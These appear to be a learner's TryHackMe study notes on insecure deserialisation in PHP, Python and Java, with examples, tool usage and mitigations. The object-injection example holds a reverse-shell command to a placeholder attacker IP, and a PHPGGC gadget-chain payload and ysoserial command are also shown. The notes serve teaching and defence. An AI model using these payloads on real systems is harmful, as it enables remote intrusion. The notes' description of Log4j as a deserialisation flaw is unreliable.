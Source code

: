 
📅 **Date**: 26 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: Server Side Attack
🏷️ Tags: #tryhackme #tryhackme/learn

---
# Insecure Deserialisation

## Serialisation
- [ ] **Definition**: Process of converting an object's state into a storable or transmittable format.
- [ ] **Analogy**: Like packing a school bag with books, notebooks, lunchbox, etc.
- [ ] **Purpose**: Used in web applications to transfer data between systems or networks.
- [ ] **Example in PHP**:
```php
<?php
$noteArray = array("title" => "My THM Note", "content" => "Welcome to THM!");
$serialisedNote = serialize($noteArray);  // Serialisation
file_put_contents('note.txt', $serialisedNote);  // Saving to file
?>
```

## Deserialisation
- [ ] **Definition**: Process of converting serialised data back into an object.
- [ ] **Analogy**: Like unpacking a school bag to use the items.
- [ ] **Purpose**: Retrieving data from files, databases, or networks.
- [ ] **Example in PHP**:
```php
<?php
$serialisedNote = file_get_contents('note.txt');  // Reading serialised data
$noteArray = unserialize($serialisedNote);  // Deserialisation
echo "Title: " . $noteArray['title'] . "<br>";
echo "Content: " . $noteArray['content'];
?>
```

## Insecure Deserialisation Vulnerabilities
- [ ] **Risk**: Attackers can manipulate serialised data to execute unauthorised actions or steal data.
- [ ] **Examples**:
    1. **Log4j Vulnerability (CVE-2021-44228)**:
        - [ ] **Impact**: Remote code execution via insecure deserialisation in Apache Log4j.
    2. **WebLogic Server RCE (CVE-2015-4852)**:
        - [ ] **Impact**: Remote code execution via maliciously crafted objects.
    3. **Jenkins Java Deserialisation (CVE-2016-0792)**:
        - [ ] **Impact**: Arbitrary code execution via crafted serialisation payloads.
## Serialisation in Different Languages
- [ ] **PHP**:
    - [ ] **Serialisation**: `serialize()` function.
    - [ ] **Deserialisation**: `unserialize()` function.
    - [ ] **Magic Methods**:
        - [ ] `__sleep()`: Called before serialisation.
        - [ ] `__wakeup()`: Called after deserialisation.
        - [ ] `__serialize()`: Custom serialisation (PHP 7.4+).
        - [ ] `__unserialize()`: Custom deserialisation (PHP 7.4+).
- [ ] **Python**:
    - [ ] **Serialisation**: `pickle.dumps()`.
    - [ ] **Deserialisation**: `pickle.loads()`.
    - [ ] **Base64 Encoding**: Used to safely transmit binary data.
	
---
## Exploitation Techniques
1. **Modifying Serialised Data**:
    - [ ] Example: Changing `isSubscribed` from `false` to `true` in a serialised cookie.
    - [ ] **Impact**: Unauthorised access to premium features.
2. **Object Injection**:
    - [ ] **Vulnerability**: Insecure deserialisation allows injecting malicious objects.
    - [ ] **Example**:
	```php
	<?php
	class MaliciousUserData {
		public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
	}
	$maliciousUserData = new MaliciousUserData();
	$serializedData = serialize($maliciousUserData);
	echo base64_encode($serializedData);
	?>
	```
    - [ ] **Impact**: Remote code execution via `__wakeup()` or `__destruct()`.
	
---
## Tools for Exploitation
1. **PHPGGC (PHP Gadget Chain)**:
    - [ ] **Purpose**: Generates gadget chains for PHP object injection.
    - [ ] **Usage**:
	```bash
	php phpggc Laravel/RCE3 system whoami
	``` 
    - [ ] **Example Payload**:
	```php
	O:40:"Illuminate\Broadcasting\PendingBroadcast":1:{s:9:"*events";O:39:"Illuminate\Notifications\ChannelManager":3:					 	         {s:6:"*app";s:6:"whoami";s:17:"*defaultChannel";s:1:"x";s:17:"*customCreators";a:1:{s:1:"x";s:6:"assert";}}}
	```
2. **Ysoserial (Java)**:
    - [ ] **Purpose**: Generates payloads for Java deserialisation vulnerabilities.
    - [ ] **Usage**:
	```java
	java -jar ysoserial.jar CommonsCollections1 'calc.exe'
	```
        
---
## Mitigation Strategies
1. **Red Team/Pentester Perspective**:
    - [ ] **Codebase Analysis**: Identify serialisation/deserialisation points.
    - [ ] **Vulnerability Identification**: Use static and dynamic analysis tools.
    - [ ] **Fuzzing**: Test with invalid or unexpected input data.
    - [ ] **Error Handling**: Assess how errors are handled during deserialisation.
2. **Secure Coder Perspective**:
    - [ ] **Avoid Insecure Formats**: Use JSON or XML instead of binary serialisation.
    - [ ] **Input Validation**: Validate and sanitise all inputs.
    - [ ] **Avoid `eval()` and `exec()`**: Prevent arbitrary code execution.
    - [ ] **Secure Coding Practices**: Follow least privilege, defence in depth, and fail-safe defaults.
    - [ ] **Adhere to Guidelines**: Follow language/framework-specific secure coding standards.

---
## Key Takeaways
- [ ] Serialisation and deserialisation are powerful but risky if not implemented securely.
- [ ] Insecure deserialisation can lead to remote code execution, data leakage, and unauthorised access.
- [ ] Tools like PHPGGC and Ysoserial automate exploitation but also help in identifying vulnerabilities.
- [ ] Mitigation involves secure coding practices, input validation, and avoiding insecure formats.
